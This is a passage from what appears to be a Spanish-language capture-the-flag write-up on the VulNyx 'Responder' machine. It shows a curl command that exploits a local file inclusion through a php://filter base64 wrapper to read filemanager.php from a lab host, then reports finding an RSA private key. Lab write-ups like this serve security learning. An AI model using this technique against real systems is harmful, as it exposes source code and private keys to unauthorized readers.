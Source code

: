 Por lo que con curl hago una petición GET al archivo y directamente lo decodifico de base64 a texto plano.

```bash
curl -X GET "http://192.168.0.18/filemanager.php?random=php://filter/convert.base64-encode/resource=/var/www/html/filemanager.php" | base64 -d > filemanager.txt
```

Y tras leer el archivo encuentro una clave privada RSA.

![](/assets/images/VULNYX/Responder-Vulnyx/rsa-privada.webp)
